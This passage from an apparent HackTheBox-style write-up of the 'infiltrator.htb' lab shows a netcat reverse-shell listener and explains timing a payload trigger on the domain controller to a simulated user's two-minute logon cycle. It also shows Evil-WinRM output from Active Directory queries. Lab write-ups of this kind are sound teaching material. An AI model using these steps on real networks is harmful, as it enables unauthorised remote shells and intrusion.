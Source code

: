 Of course, also start your listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444            
listening on [any] 4444 ...
```

We now have everything in place. We can create a trigger for a couple minutes in the future, which will be synced with the correct time, and will trigger the correct path/binary on the dc01 to get us a callback.

I want to mention something. Once you saw that this might be the path, there is something you should check. Clearly, there is potentially some kind of script to trigger the payload (fake user interaction). If you query ldap for o.martinez account information, you find that every 2 minutes, their logoncount increments up by one (aka, on even minute timestamps). To be graceful, we should just place 1 trigger on an even numbered minute, to correlate with this.

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> Get-ADUser -Identity o.martinez -Properties logoncount,date

DistinguishedName : CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
Enabled           : True
GivenName         :
LastLogonDate     : 5/10/2025 7:44:18 AM
logoncount        : 281

Surname           :
UserPrincipalName : O.martinez@infiltrator.htb
DateTime    : Saturday, May 10, 2025 8:30:14 AM

DistinguishedName : CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
Enabled           : True
GivenName         :
LastLogonDate     : 5/10/2025 7:44:18 AM
logoncount        : 282
DateTime    : Saturday, May 10, 2025 8:30:17 AM

Surname           :
UserPrincipalName : O.martinez@infiltrator.htb

DistinguishedName : CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
Enabled           : True
GivenName         :
LastLogonDate     : 5/10/2025 7:44:18 AM
logoncount        : 283
Surname           :
UserPrincipalName : O.martinez@infiltrator.htb
DateTime    : Saturday, May 10, 2025 8:32:17 AM
```
{% endcode %}
